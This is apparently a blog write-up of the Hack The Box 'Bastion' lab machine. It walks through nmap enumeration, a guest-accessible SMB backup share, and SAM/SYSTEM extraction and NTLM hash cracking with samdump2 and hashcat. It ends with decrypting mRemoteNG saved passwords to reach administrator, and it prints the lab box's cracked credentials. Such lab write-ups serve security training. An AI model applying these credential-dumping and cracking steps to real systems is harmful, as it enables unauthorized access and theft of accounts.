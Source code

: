 +++
title = "Hack The Box: Bastion"
date = "2019-09-06"
author = ""
cover = ""
tags = ["HTB", "SMB", "SAM", "John", "mRemoteNG"]
keywords = ["", ""]
description = ""
showFullContent = false
+++
<!--more-->
{{< image src="/img/bastion/info_card.png" alt="Bastion Info Card" position="center" style="border-radius: 8px;" >}}

# Summary

Bastion was a relatively easy box. There is an smb share is accessible without credentials and inside there is a backup drive that we can mount and access. From the drive we can dump the SAM file and crack it to get login credentials. Once logged in we find mRemoteNG installed and extract its saved passwords to get admin access. 

# Enumeration

I start with this nmap command to quickly find open ports.
```sh
nmap -sS -p- --min-rate=1000 10.10.10.134

Nmap scan report for 10.10.10.134
Host is up (0.23s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

Then run a thorough service scan on the discovered ports.

```sh
nmap -sC -sV -p 22,135,139,445,5985,47001 -oA nmap/bastion 10.10.10.134

Nmap scan report for 10.10.10.134
Host is up (0.22s latency).

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -42m39s, deviation: 1h09m15s, median: -2m40s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-06T13:28:45+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-09-06 12:28:49
|_  start_date: 2019-09-06 11:58:13

```
## SMB

Based on the open ports the best service to check out first is smb.

```sh
smbmap -H 10.10.10.134 -u ' '

[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445        Name: 10.10.10.134
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS
        IPC$                                                    READ ONLY
```
After running smbmap, I discover a share called Backups that I have read and write permissions as a guest user.

Since this is a windows machine I will switch to my windows vm to make my work easier.

{{< image src="/img/bastion/backup_share.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

Contents of note.txt

*Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.*

Going deeper into the WindowsImageBackup folder I found a backup image which is quite big. Downloading the whole file would not be an option as the note.txt suggested. Fortunately I can mount it through the share remotely, this is the reason why I wanted to use a windows vm.

{{< image src="/img/bastion/backup_share_2.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

On mounting it, it appears as Local Disk (D:). After accessing the home directory of user L4mpje and looking through the folders there was no user.txt, it must have been excluded from the backup.

{{< image src="/img/bastion/backup_share_3.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

At this stage I was stuck for a while (I still suck at owning windows) and after some hints in the forum I figured I should look at where credentials are stored locally on windows and how to get them. Simply the equivalent of /etc/shadow or /etc/passwd on linux.

I learnt that I should be looking in C:\windows\system32\config for the SAM and SYSTEM files which I found.

{{< image src="/img/bastion/backup_share_4.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

##### Now to get the credentials!

I pulled the 2 files back to my kali box and using samdump2 I got the user hash.

```sh
samdump2 SYSTEM SAM

*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
I then cracked the NTLM hash for L4mpje using hashcat and got the password.

```sh
hashcat -m 1000 -a 0 26112010952d963c8dc4217daec986d9 /usr/share/wordlists/rockyou.txt --force

26112010952d963c8dc4217daec986d9:bureaulampje
```
# Exploitation

Now that I have a username and password I can login through ssh.

{{< image src="/img/bastion/bastion_5.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

Now that user is owned, let's try to escalate privileges to admin.

I switched to powershell and started looking at installed programs. mRemoteNG isn't a default windows application so let me look into it and if it can help in privesc.

{{< image src="/img/bastion/bastion_6.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

According to their website:

*mRemoteNG is a fork of mRemote: an open source, tabbed, multi-protocol, remote connections manager.*

I found a metasploit module that claims to extract saved passwords from mRemoteNG. Since I am logged in I don't need metasploit so I looked at the source to see how it extracts the passwords and decrypts them.

The saved passwords are located in AppData in mRemoteNG\confCons.xml. Once I found the file the admin password was there but encrypted.

{{< image src="/img/bastion/bastion_7.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

I was able to find a script on github to decrypt the password.

```sh
./mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

Password: thXLHM96BeKL0ER2
```
I can finally login as administrator and own system!

{{< image src="/img/bastion/bastion_8.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

# References

- [mremoteng_decrypt.py](https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py)
- [mremote metasploit module](https://vulners.com/metasploit/MSF:POST/WINDOWS/GATHER/CREDENTIALS/MREMOTE/)
